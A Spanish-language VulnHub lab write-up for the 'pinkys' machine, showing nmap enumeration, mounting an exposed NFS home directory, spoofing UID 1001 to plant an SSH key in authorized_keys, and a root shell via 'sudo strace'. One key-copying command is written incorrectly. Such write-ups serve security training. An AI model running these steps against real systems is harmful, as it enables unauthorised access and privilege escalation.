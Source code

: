 ```yaml
---
layout: single
title: pinkys - VulnHub
excerpt: "Pinkys es una máquina vulnerable de VulnHub que cuenta con una vulnerabilidad que reside en una incorrecta configuración de montaje de archivos, que nos permite comprometer la máquina. El proceso de elevación de privilegios se basa en la explotación de una aplicación que con tiene permisos SUID."
date: 2023-10-08
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Pinkys es una máquina fácil, que contiene una vulnerabilidad que reside de una mala configuración de montaje, que nos permite comprometer la máquina. La elevación de privilegios consiste en una incorrecta gestión de permisos de archivos, esto nos permite ejecutar comandos como root.

## Enumeración

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios(ssh,rpcbind,nfs,mountd,nlockmgr).

```bash
# Nmap 7.93 scan initiated Mon Sep 25 08:33:16 2023 as: nmap -sCV -p22,111,2049,41041,42917,42939,56679 -oN vulnscan.nmap 192.168.0.106
Nmap scan report for 192.168.0.106
Host is up (0.00028s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a9bb9326f957710c0a0803534b1c000 (RSA)
|   256 240c7a8278182d66463b1a362206e1a1 (ECDSA)
|_  256 b915597885789ea5e616f6cf962d1d36 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41041/tcp   mountd
|   100005  1,2,3      43523/udp6  mountd
|   100005  1,2,3      50575/tcp6  mountd
|   100005  1,2,3      51299/udp   mountd
|   100021  1,3,4      42917/tcp   nlockmgr
|   100021  1,3,4      44393/tcp6  nlockmgr
|   100021  1,3,4      56691/udp   nlockmgr
|   100021  1,3,4      57572/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
41041/tcp open  mountd   1-3 (RPC #100005)
42917/tcp open  nlockmgr 1-4 (RPC #100021)
42939/tcp open  mountd   1-3 (RPC #100005)
56679/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:D8:9F:D6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 08:33:24 2023 -- 1 IP address (1 host up) scanned in 7.06 seconds 
```

## Analisis de puntos de montaje

La herramienta **showmount** permite visualizar sistemas de ficheros montados en un servidor.

```bash
➜  pinkys-palace showmount -e 192.168.0.106
Export list for 192.168.0.106:
/home/peter *
```

Realizamos una réplica local de la montura remota.

```bash
➜  pinkys-palace mount -t nfs  192.168.0.106:/home/peter /mnt/nft
➜  pinkys-palace ls -la /mnt/nft 
total 32
drwxr-xr-x 6 1001 1005 4096 sep 25  2023 .
drwxr-xr-x 1 root root    6 sep 24 21:59 ..
-rw-r--r-- 1 1001 1005  220 jul  9  2018 .bash_logout
-rw-r--r-- 1 1001 1005 3771 jul  9  2018 .bashrc
drwx------ 2 1001 1005 4096 jul 10  2018 .cache
-rw-rw-r-- 1 1001 1005    0 jul 10  2018 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 jul 10  2018 .gnupg
drwxrwxr-x 3 1001 1005 4096 jul 10  2018 .local
-rw-r--r-- 1 1001 1005  807 jul  9  2018 .profile
```

Según Hacktricks, si creamos un usuario con el ID 1001, podremos obtener acceso y crear contenido en todas las carpetas del sistema, lo que sugiere una vulnerabilidad o debilidad en la configuración de permisos del sistemas.
Por lo tanto creamos un usuario.

```bash
adduser --force-badname 1001
```

Una vez que hemos creado el usuario con el ID 1001, hemos obtenido la capacidad de crear y visualizar todos los archivos en el sistema. En consecuencia, hemos aprovechado esta oportunidad para tomar nuestra clave pública y generar un archivo denominado 'authorized_keys' en un directorio que hemos creado específicamente llamado '.ssh'. Esto nos ha habilitado el acceso al usuario 'peter' sin la necesidad de autenticación basada en contraseñas, permitiendo la autenticación mediante claves públicas.

```bash
➜  nft ls -la .ssh/authorized_keys 
-rw-r--r-- 1 1001 1001 565 sep 25  2023 .ssh/authorized_keys
➜  nft l
total 32K
drwxr-xr-x 6 1001 1005 4,0K sep 25  2023 .
drwxr-xr-x 1 root root    6 sep 24 21:59 ..
-rw-r--r-- 1 1001 1005  220 jul  9  2018 .bash_logout
-rw-r--r-- 1 1001 1005 3,7K jul  9  2018 .bashrc
drwx------ 2 1001 1005 4,0K jul 10  2018 .cache
-rw-rw-r-- 1 1001 1005    0 jul 10  2018 .cloud-locale-test.skip
drwx------ 3 1001 1005 4,0K jul 10  2018 .gnupg
drwxrwxr-x 3 1001 1005 4,0K jul 10  2018 .local
-rw-r--r-- 1 1001 1005  807 jul  9  2018 .profile
drwxr-xr-x 2 1001 1001 4,0K sep 25  2023 .ssh
```

Para generar las claves ssh lo hacemos de la siguiente manera.

```bash
ssh-keygen -t rsa
echo id_rsa.pub >> /mnt/nft/.ssh/authorized key
```

## Escalada de privilegios 

Cuando ingresamos a la máquina y ejecutamos el comando **sudo -l**. Observamos una incorrecta configuración de permisos de archivos. Esto nos permite acceder como root.

```bash
peter@linsecurity:~$ sudo -l
Matching Defaults entries for peter on linsecurity:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on linsecurity:
    (ALL) NOPASSWD: /usr/bin/strace

```

### GTFOBins

GTFOBins nos indica que la utilidad 'strace' presenta una vulnerabilidad.

```bash
peter@linsecurity:~$ sudo strace -o /dev/null /bin/sh
# whoami
root
```

